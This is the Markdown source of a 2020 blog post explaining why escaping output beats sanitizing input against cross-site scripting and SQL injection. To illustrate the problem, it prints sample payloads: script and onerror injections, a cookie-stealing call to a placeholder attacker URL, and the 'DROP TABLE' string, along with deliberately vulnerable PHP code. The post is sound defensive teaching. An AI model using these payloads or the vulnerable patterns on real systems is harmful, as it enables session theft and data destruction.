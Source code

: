 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should escape output correctly, but generally not sanitize user input.
---
```

<h1><a href="{{ page.permalink }}">{{ page.title }}</a></h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


## How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them verbatim in a page's HTML. This might cause minor issues (HTML that breaks the page layout) or major ones (JavaScript that sends the user's login cookie to an attacker's site).

Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is output as is on your profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Yo ho ho!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML including the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookie-monster')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


## Why input filtering isn't a great idea

The developer has heard of "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob is on his own, with a middle name of Jane.

Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have a PHP template that looks like this:

```html
<html>
...
<script>
var name = "<?=$name?>";
</script>
```

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary JavaScript on any NaiveSite pages that display the user's name (which, if you're logged in, is probably all of them).

Another example of this kind of thing is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}';"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

Incidentally, the mother in the xkcd comic says, "I hope you've learned to sanitize your database inputs." Which is somewhat confusing, but I'll give Randall the benefit of the doubt and assume he meant "escape your database parameters".

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


## Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a given context.

So the better approach is to store whatever name the user enters verbatim, and then have the template language HTML-escape when outputting HTML, or properly escape JSON when outputting JSON and JavaScript. And of course use your SQL engine's parameterized query features so it properly escapes variables when building SQL.

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript. Most other templating systems at least give you automatic HTML escaping, for example React, Jinja2, and Rails templates.


## But what if you *want* raw input?

One tricky situation is when your app's purpose is allowing a user to enter HTML or Markdown for display. In this case you can't escape when rendering output, because the whole purpose is to allow users to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1. Allow them to only enter pure Markdown, and convert that to HTML on render (many Markdown libraries allow raw HTML by default; be sure to disable that). This is the most secure option, but also more restrictive.
2. Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a href="...">` and `<img src="...">`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML directly, you only have the second option -- you must filter using a whitelist. This is harder to get right than you'd think (for example, `<img src="x" onerror="badFunc()">`), so be sure to use a mature, security-vetted library like [DOMPurify](https://github.com/cure53/DOMPurify).

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection might be if you're building a data charting tool that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([like this one](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query -- but doing this correctly is not trivial, so be sure to get security review.


## What about validation?

Input sanitization is usually a bad idea, but input *validation* is a good thing.

For example, when you're parsing form fields, and you have a number field that's not a number, or an email address without an `@`, or a "post status" drop-down that can only be one of `draft`, `published`, or `archived` -- then by all means validate it and return an error if it's invalid.

Good web form validation shows errors inline so the user knows exactly what to fix:

![Web form validation](/images/form-validation.png)

You must do validation at least on the backend, otherwise an attacker could bypass the frontend validation and `POST` bogus data to your endpoint directly. In addition, you can also validate early on the frontend to show errors more real-time, without a round trip to the server.


## Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information on escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found it succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4 -- the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch!

